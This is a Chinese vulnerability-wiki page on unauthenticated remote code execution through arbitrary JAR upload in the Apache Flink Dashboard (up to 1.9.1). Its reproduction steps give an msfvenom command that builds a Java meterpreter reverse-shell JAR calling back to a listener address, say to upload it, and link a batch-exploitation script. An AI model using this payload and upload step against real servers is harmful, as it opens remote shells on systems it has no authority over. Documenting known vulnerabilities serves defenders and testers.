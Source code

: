 Apache Flink Dashboard 未授权访问-远程代码命令执行
==================================================

一、漏洞简介
------------

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

二、漏洞影响
------------

\<= 1.9.1(最新版本)

三、复现过程
------------

### 1、

    msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar

![](/Users/aresx/Documents/VulWiki/.resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId25.png)

### 2、

上传alewong Jar包

![](/Users/aresx/Documents/VulWiki/.resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId27.png)

![](/Users/aresx/Documents/VulWiki/.resource/ApacheFlinkDashboard未授权访问-远程代码命令执行/media/rId28.png)

### 批量脚本

https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec

    Ps:
    当注释掉 if 'Unable to load requested file' in str(data):
    之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权
